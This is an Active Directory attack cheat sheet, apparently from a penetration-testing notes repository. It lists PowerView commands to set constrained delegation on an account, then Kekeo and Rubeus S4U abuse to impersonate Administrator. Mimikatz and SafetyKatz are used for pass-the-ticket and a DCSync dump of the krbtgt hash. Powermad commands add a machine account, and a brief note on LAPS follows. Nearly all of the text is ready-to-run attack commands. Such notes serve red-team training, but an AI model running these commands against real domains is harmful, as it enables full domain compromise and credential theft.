 ### msDS-AllowedToDelegateTo
#### Set msDS-AllowedToDelegateTo
```
Set-DomainObject -Identity devuser -Set @{serviceprincipalname='dev/svc'}
Set-DomainObject -Identity devuser -Set @{"msds-allowedtodelegateto"="ldap/us-dc.us.techcorp.local"}
Set-DomainObject -SamAccountName devuser1 -Xor @{"useraccountcontrol"="16777216"}
Get-DomainUser –TrustedToAuth
```

#### Abuse msDS-AllowedToDelegateTo Kekeo
```
kekeo# tgt::ask /user:<USER> /domain:<DOMAIN> /password:Password@123!

kekeo# tgs::s4u /tgt:<KIRBI FILE> /user:Administrator@<DOMAIN> /service:ldap/<FQDN DC>

Invoke-Mimikatz -Command '"kerberos::ptt <KIRBI FILE>"'

Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'
```

#### Abuse Rubeus:
```
Rubeus.exe hash /password:Password@123! /user:<USER> /domain:<DOMAIN>

Rubeus.exe s4u /user:<USER> /rc4:<NTLM HASH> /impersonateuser:administrator /msdsspn:ldap/<FQDN DC> /domain:<DOMAIN> /ptt

C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

## Computeraccount
- https://github.com/Kevin-Robertson/Powermad
- Low privilege if not added to the domain admins group

#### Add computeraccount to the domain
```
New-MachineAccount -Domain <DOMAIN> -MachineAccount <NAME OF MACHINE TO ADD> -DomainController <IP> -Verbose
```

### Runas computeraccount
```
runas /netonly /user:<DOMAIN>\<COMPUTERACCOUNTNAME> powershell
```

## LAPS
- The password will still reset if an admin uses the Reset-AdmPwdPassword cmdlet; or if Do not allow password expiration time longer than required by policy is enabled in the LAPS GPO.
- Must run from system
